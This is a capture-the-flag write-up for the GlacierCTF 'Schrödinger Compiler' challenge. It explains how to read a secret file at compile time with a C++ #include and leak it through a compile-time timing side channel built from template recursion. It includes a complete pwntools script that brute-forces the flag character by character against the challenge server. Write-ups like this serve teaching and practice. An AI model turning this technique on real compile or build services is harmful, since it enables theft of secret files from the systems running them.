 # WriteUp for GlacierCTF Challenge: **Schrödinger Compiler**

The challenge is to exploit this shell script to get the flag.

```sh

#!/bin/sh

echo "[+] Welcome to the Schrödinger Compiler"
echo "[+] We definitely don't have a flag in /flag.txt"
echo "[+] Timeout is 3 seconds, you can run it locally with deploy.sh"

echo ""

echo "[+] Submit the base64 (EOF with a '@') of a .tar.gz compressed "
echo "    .cpp file and we'll compile it for you"
echo "[+] Example: tar cz main.cpp | base64 ; echo "@""
echo "[>] --- BASE64 INPUT START ---"
read -d @ FILE
echo "[>] --- BASE64 INPUT END ---"

DIR=$(mktemp -d)
cd ${DIR} &> /dev/null
echo "${FILE}" | base64 -d 2>/dev/null | tar -xzO > main.cpp 2> /dev/null
echo "[+] Compiling with g++ main.cpp &> /dev/null"
g++ main.cpp

# ./main
# oops we fogot to run it
echo "[+] Bye, it was a pleasure! Come back soon!"

```

## Exploitation

### Analysis

we can see that the script is taking a base64 encoded tar file, decoding it and extracting the contents to a file named `main.cpp` and then compiling it with `g++`.

The first thing that comes to mind is to use this trick from c++ for get the flag:

```cpp
const char * myString = {
    #include "/flag.txt"
};
```
Because it loads the content of the file into the string at compile time.

### Time attack

Now we need to find a way to get the content of myString, so we can use a time attack.

The idea is to have a cpp file that will take a lot of time to compile if a condition is not true.

```cpp
#include <format>
#include <cstdio>
#include <type_traits>
#include <string>

static constexpr const char * myString = {
    #include "/flag.txt"
};

#include <iostream>


template<int N>
struct Factorial {
    static const int value = N * Factorial<N - 1>::value;
};

template<>
struct Factorial<0> {
    static const int value = 1;
};


template <int N>
struct CompileTimeDelay {
    static void delay() {
        std::cout << Factorial<10>::value << std::endl;
        CompileTimeDelay<N - 1>::delay();
    }
};

template <>
struct CompileTimeDelay<0> {
    static void delay() {
    }
};

#define COMPILE_DELAY(N)     static_assert(N == 0 || N > 0, "Invalid delay value");     CompileTimeDelay<N>::delay();

        int main() {
            COMPILE_DELAY(myString[0] - 'g' ? 800 : 0);
            return 0;
        }
```
It's executing 800 times the factorial of 10 if the first character of the flag is not 'g'.
this code take approximately 1 seconds to compile if the first character of the flag is not 'g' and 0.3 seconds if it's 'g'.

### Solution

The code for the exploit is:

```python
from pwn import *
import os
import subprocess
import time
import string
chars = string.ascii_lowercase + string.ascii_uppercase + string.digits + "_{}"
context.log_level = 'warning'


text = '''

#include <format>
#include <cstdio>
#include <type_traits>
#include <string>

static constexpr const char * myString = {
    #include "/flag.txt"
};

#include <iostream>


//template factorial
template<int N>
struct Factorial {
    static const int value = N * Factorial<N - 1>::value;
};

template<>
struct Factorial<0> {
    static const int value = 1;
};


template <int N>
struct CompileTimeDelay {
    static void delay() {
        // Recursive unrolling: "doing work"
        std::cout << Factorial<10>::value << std::endl;
        CompileTimeDelay<N - 1>::delay();
    }
};

// Specialization to stop recursion when N == 0
template <>
struct CompileTimeDelay<0> {
    static void delay() {
        // factorial of 10
        // Base case: no recursion, effectively instant for N=0
    }
};

#define COMPILE_DELAY(N) \
    static_assert(N == 0 || N > 0, "Invalid delay value"); \
    CompileTimeDelay<N>::delay();
'''
flag = 'gctf{'
i = len(flag)
while True:
    char_to_time = []
    for c in chars:
        re = remote('78.47.52.31', 4126)
        (re.recvuntil(b'BASE64 INPUT START ---\n'))
        reste = '''
        int main() {
            COMPILE_DELAY(myString[%d] - '%c' ? 800 : 0);
            return 0;
        }
        ''' % (i, c)


        with open('to_compile.cpp','w') as f:
            f.write(text + reste)
            f.close()
        cmd = 'tar cz to_compile.cpp | base64'
        result = subprocess.check_output(cmd, shell=True)
        re.sendline(result)
        re.sendline(b'@')
        timestart = time.time()
        (re.recvall())
        result = time.time() - timestart
        print(c, result)
        if result < 0.5:
            char_to_time.append((c, result))
            re.close()
            break
        char_to_time.append((c, result))
        re.close()
    i += 1
    char_to_time.sort(key=lambda x: x[1])
    print(char_to_time)
    flag += char_to_time[0][0]
    print(flag)
```